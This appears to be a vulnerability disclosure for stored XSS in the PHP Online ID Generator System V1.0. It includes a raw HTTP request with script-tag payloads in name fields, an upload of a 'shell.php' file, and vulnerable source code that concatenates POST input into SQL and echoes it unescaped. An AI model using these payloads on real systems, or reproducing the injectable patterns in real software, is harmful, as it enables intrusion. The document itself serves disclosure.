 # [Online ID Generator System-Stored XSS-Users.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://localhost/id_generator/classes/Users.php?f=save`

**[Vulnerability Location]:** id_generator/classes/Users.php

**[Vulnerability Test]:**

1. View `http://localhost/id_generator/admin/?page=user`, Insert the XSS payload in **"First Name"** and **"Last Name"**.

   ![](../../img/20240623121817.png)

2. After clicking the update button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /id_generator/classes/Users.php?f=save HTTP/1.1
   Host: localhost
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   X-Requested-With: XMLHttpRequest
   Content-Type: multipart/form-data; boundary=---------------------------14553066402069541021603745978
   Content-Length: 867
   Origin: http://localhost
   Connection: close
   Referer: http://localhost/id_generator/admin/?page=user
   Cookie: Phpstorm-10d910bb=a6bc0397-210c-4145-96b8-e9aedf363376; PHPSESSID=c6ikif3reuhfclaa66bo04s2sj
   
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="id"
   
   1
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="firstname"
   
   <script>alert(1)</script>
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="lastname"
   
   <script>alert(2)</script>
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="username"
   
   admin
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="password"
   
   
   -----------------------------14553066402069541021603745978
   Content-Disposition: form-data; name="img"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   -----------------------------14553066402069541021603745978--
   
   ```

3. Visit `http://localhost/id_generator/admin/?page=user`, and a pop-up window appears.

   ![](../../img/20240623122026.png)

   ![](../../img/20240623122152.png)

**[code analysis]:**

in id_generator/classes/Users.php

```php
<?php
    require_once('../config.php');
Class Users extends DBConnection {
    private $settings;
    public function __construct(){
        global $_settings;
        $this->settings = $_settings;
        parent::__construct();
    }
    public function __destruct(){
        parent::__destruct();
    }
    public function save_users(){
        extract($_POST);
        $data = '';
        $chk = $this->conn->query("SELECT * FROM `users` where username ='{$username}' ".($id>0? " and id!= '{$id}' " : ""))->num_rows;
        if($chk > 0){
            return 3;
            exit;
        }
        foreach($_POST as $k => $v){
            if(!in_array($k,array('id','password'))){
                if(!empty($data)) $data .=" , ";
                $data .= " {$k} = '{$v}' ";
            }
        }
        if(!empty($password)){
            $password = md5($password);
            if(!empty($data)) $data .=" , ";
            $data .= " `password` = '{$password}' ";
        }

        if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
            $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
            $move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
            if($move){
                $data .=" , avatar = '{$fname}' ";
                if(isset($_SESSION['userdata']['avatar']) && is_file('../'.$_SESSION['userdata']['avatar']) && $_SESSION['userdata']['id'] == $id)
                    unlink('../'.$_SESSION['userdata']['avatar']);
            }
        }
        if(empty($id)){
            $qry = $this->conn->query("INSERT INTO users set {$data}");
            if($qry){
                $this->settings->set_flashdata('success','User Details successfully saved.');
                return 1;
            }else{
                return 2;
            }

        }else{
            $qry = $this->conn->query("UPDATE users set $data where id = {$id}");
            if($qry){
                $this->settings->set_flashdata('success','User Details successfully updated.');
                foreach($_POST as $k => $v){
                    if($k != 'id'){
                        if(!empty($data)) $data .=" , ";
                        $this->settings->set_userdata($k,$v);
                    }
                }
                if(isset($fname) && isset($move))
                    $this->settings->set_userdata('avatar',$fname);

                return 1;
            }else{
                return "UPDATE users set $data where id = {$id}";
            }

        }
    } 

}

$users = new users();
$action = !isset($_GET['f']) ? 'none' : strtolower($_GET['f']);
switch ($action) {
    case 'save':
        echo $users->save_users();
        break;
    case 'fsave':
        echo $users->save_fusers();
        break;
    case 'ssave':
        echo $users->save_susers();
        break;
    case 'delete':
        echo $users->delete_users();
        break;
    default:
        // echo $sysset->index();
        break;
}
```

/id_generator/admin/user/index.php

```php+HTML
<div class="form-group">
    <label for="name">First Name</label>
    <input type="text" name="firstname" id="firstname" class="form-control" value="<?php echo isset($meta['firstname']) ? $meta['firstname']: '' ?>" required>
</div>
<div class="form-group">
    <label for="name">Last Name</label>
    <input type="text" name="lastname" id="lastname" class="form-control" value="<?php echo isset($meta['lastname']) ? $meta['lastname']: '' ?>" required>
</div>
<div class="form-group"><div class="form-group">
    <label for="short_name" class="control-label">System Short Name</label>
    <input type="text" class="form-control form-control-sm" name="short_name" id="short_name" value="<?php echo  $_settings->info('short_name') ?>">
    </div>
```

And the output is made in the page.